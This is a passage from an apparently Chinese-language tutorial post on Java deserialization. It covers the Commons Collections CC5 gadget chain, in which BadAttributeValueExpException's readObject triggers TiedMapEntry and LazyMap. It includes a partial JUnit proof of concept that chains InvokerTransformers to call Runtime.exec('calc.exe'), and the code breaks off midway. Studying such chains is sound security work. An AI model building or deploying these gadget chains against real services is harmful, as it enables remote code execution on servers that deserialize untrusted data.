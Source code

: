 ### 7.2 新 kick-off

1. 和 CC6 的思路一样，CC1 的 kick-off，也就是 `AnnotationInvocationHandler` 需要替换，现在的要求是：“一个类的 `readObject()` 调用了 `TiedMapEntry.toString()`”。
2. su18 师傅给出了一个类：`javax.management.BadAttributeValueExpException`：
    ![image-20240927111244678](Serialization-Java/image-20240927111244678.png)
    分析逻辑，其会将反序列化中的 `val` 属性提取出来，然后如果 `System.getSecurityManager() == null`，就会触发链条，默认这个不等式是成立的。

### 7.3 PoC 编写

1. 基本没啥难的，就改了 kick-off 而已：
    ```java
    // CC 4.0
    @Test
    public void testCC5() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        // 4. 通过反射修改 BadAttributeValueExpException 的 val
        BadAttributeValueExpException toBeSerBAVEException = new BadAttributeValueExpException("123");
        Field valField = toBeSerBAVEException.getClass().getDeclaredField("val");